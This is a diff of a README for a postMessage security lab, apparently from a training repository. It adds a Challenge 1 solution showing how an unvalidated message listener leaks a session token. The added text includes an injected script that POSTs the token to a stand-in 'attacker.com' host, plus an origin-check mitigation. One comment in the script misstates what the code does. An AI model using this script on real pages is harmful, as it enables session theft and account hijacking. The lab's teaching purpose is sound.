

Before and after one commit to HustleSec/hacking-labs, a Markdown page: postMessage_lab/README.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/postMessage_lab/README.md
+++ b/postMessage_lab/README.md
@@ -2,40 +2,21 @@
 
 This repository demonstrates two security challenges related to **postMessage**, a JavaScript method for cross-origin communication. These challenges explore vulnerabilities that can be exploited in web applications, specifically focusing on stealing session tokens and injecting fake log messages.
 
-## Table of Contents
+### Challenge 1 Solution: Stealing the Session Token (postMessage Exploit)
 
-- [Challenge 1: Steal the Session Token](#challenge-1-steal-the-session-token)
-    - [Challenge Overview](#challenge-overview)
-    - [Exploiting postMessage to Steal the Session Token](#exploiting-postmessage-to-steal-the-session-token)
-    - [Security Implications](#security-implications)
-    - [Mitigation Strategies](#mitigation-strategies)
+In this solution, we have a basic scenario where a parent page listens for a postMessage from a child iframe that contains a session token. The attacker exploits this scenario to steal the session token by injecting a malicious script that listens for the postMessage event and displays the token.
 
-- [Challenge 2: Fake the Log](#challenge-2-fake-the-log)
-    - [Challenge Overview](#challenge-overview-1)
-    - [Exploiting postMessage to Inject Fake Logs](#exploiting-postmessage-to-inject-fake-logs)
-    - [Security Implications](#security-implications-1)
-    - [Mitigation Strategies](#mitigation-strategies-1)
+#### Solution Overview
+The parent page listens for a message from the iframe using window.addEventListener('message'). The message is expected to contain a session token.
 
----
+The child iframe sends the session token to the parent page using window.parent.postMessage(sessionToken, '*').
 
-## Challenge 1: Steal the Session Token
+An attacker can exploit this by injecting their own script into the parent page, allowing them to intercept and display the session token.
 
-### Challenge Overview
+#### Steps to Exploit
+Parent Page: The parent page includes a script that listens for messages and displays the session token.
 
-In this challenge, a parent page loads a login form inside an **iframe**. When the user logs in through the iframe, the child window sends the session token back to the parent window using the `postMessage` method.
-
-**Objective**: The goal is to exploit the lack of proper origin validation to intercept the session token and steal it during the login process.
-
-The vulnerability arises because the parent page doesn't validate the origin of the message, allowing an attacker to listen for the `postMessage` event and capture sensitive data such as the session token.
-
-### Exploiting postMessage to Steal the Session Token
-
-1. **Malicious Script Injection**: The attacker injects a script in the parent page to listen for messages.
-2. **Intercepting the Session Token**: When the child window sends the session token using `postMessage`, the malicious script captures it and can use it to hijack the user's session.
-
-#### Example of Exploiting the Vulnerability:
-
-```javascript
+```js
 <!DOCTYPE html>
 <html>
 <head>
@@ -47,15 +28,51 @@ The vulnerability arises because the parent page doesn't validate the origin of
     <iframe id="test" src="https://html5server.digi.ninja/l_child.php" style="width:100%; height:300px; border:1px solid #ddd;"></iframe>
     <script>
         window.addEventListener('message', function(event) {
-			console.log(event);
+            console.log(event); // Log the event data
             console.log('Message data:', event.data);
-            document.getElementById('token-display').innerText = "Token: " + event.data;
+            document.getElementById('token-display').innerText = "Token: " + event.data; // Display token
         });
     </script>
 </body>
 </html>
+```
 
+Child iframe: The child iframe (in the given example, l_child.php) sends the session token back to the parent using **window.parent.postMessage**.
 
 // The child iframe sends a postMessage containing the session token
-window.parent.postMessage(sessionToken, '*');
+const sessionToken = 'example-session-token'; // Example session token
+window.parent.postMessage(sessionToken, '*'); // Send token to parent
+Attacker's Exploit: The attacker injects a script in the parent page, listening for the postMessage event. When the session token is received, the attacker can display it or send it to a remote server.
+
+#### Example of the injected malicious script:
+
+```js
+// Malicious script injected into the parent page
+window.addEventListener('message', function(event) {
+    // Check that the message came from the trusted source
+    console.log(event); // Log the event data
+    console.log('Message data:', event.data); // Print out the session token
+    // Send the token to a remote server (attacker's server)
+    fetch('http://attacker.com/steal-token', {
+        method: 'POST',
+        body: JSON.stringify({ token: event.data }),
+        headers: {
+            'Content-Type': 'application/json'
+        }
+    });
+});
 ```
+### Potential Exploitation
+
+By injecting the malicious script in the parent page (e.g., through XSS or by controlling the page's code), an attacker could steal the session token when the child iframe sends it. The attacker could then forward this token to their own server or use it to impersonate the user.
+
+#### Security Considerations
+Origin Validation: The parent page should check the origin of the message using event.origin to ensure the message is coming from a trusted source, like so:
+
+```js
+if (event.origin !== 'https://trusted-child-domain.com') {
+    return; // Ignore untrusted messages
+}
+```
+**Access Control**: Use a secure mechanism for authentication and authorization (e.g., CSRF tokens, Secure HTTP Headers, SameSite cookies).
+
````
Also changed, not shown: other parts of postMessage_lab/README.md (+87 -3 lines).
